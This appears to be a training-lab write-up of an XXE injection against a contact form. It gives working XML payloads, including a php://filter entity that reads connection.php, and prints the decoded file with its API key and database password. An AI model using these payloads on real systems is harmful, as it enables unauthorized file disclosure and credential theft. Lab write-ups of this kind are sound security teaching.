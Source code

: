 # Exploiting XXE to Extract Sensitive Information – `connection.php`

### Target: `http://10.129.64.249/index.php`
Vulnerability Type: XML External Entity (XXE) Injection
Objective: Read the contents of connection.php and extract the api_key.

## 1. Initial Discovery
The provided contact form is 
![image](https://github.com/user-attachments/assets/0d43c1bb-78e3-4026-bbe5-879a31fd237d)

After submitting data via the Contact Form, I intercepted the request using Burp Suite and observed the following:
```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.64.249
Content-Type: text/plain;charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>themanojgh@gmail.com</email>
  <message>thank you</message>
</root>
```
The request body is in XML format, making it a potential target for XXE. Notably, the value inside the `<email>` tag is reflected in the server's HTTP response, which makes it a suitable injection point for XXE payloads.

## 2. XXE Payload Test
To test for XXE, I inserted an XML DTD and referenced an entity inside the `<email>` field:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>&company;</email>
  <message>thank you</message>
</root>
```
The response echoed back Inlane Freight, confirming that the server parses and expands external XML entities — the application is vulnerable to XXE injection.
![Screenshot 2025-04-24 130856](https://github.com/user-attachments/assets/38c3fd89-e079-45f8-bd7e-9537b17d981e)


## 3. Exploiting XXE for File Disclosure
Using the confirmed vulnerability, I crafted a payload to read the contents of the connection.php file using the `php://filter` wrapper to `base64-encode` the file output:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>&company;</email>
  <message>thank you</message>
</root>
```
![Screenshot 2025-04-24 131619](https://github.com/user-attachments/assets/2a4254f9-07c4-48c4-90d6-e739c53182d9)

The server responded with the base64-encoded contents of the connection.php file.

## 4. Decoding the Output
The output from the server was:
```bash
PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K
```
Decoded using `base64`, the PHP source revealed:

```bash
<?php

$api_key = "UTM1NjM0MmRjJ2dmcTIZND0wMXJnZXdmc2RmCg";

try {
  $conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9)");
}

catch (exception $e) {
  echo $e->getMessage();
}

?>
```
## ✅ Extracted API Key:

`UTM1NjM0MmRjJ2dmcTIZND0wMXJnZXdmc2RmCg`

## Conclusion
This test demonstrated a classic XXE (XML External Entity) vulnerability in the contact form of the web application. The lack of input validation and the use of outdated XML parsers allowed the injection of external entities, leading to local file disclosure and the extraction of sensitive credentials from server-side configuration files.
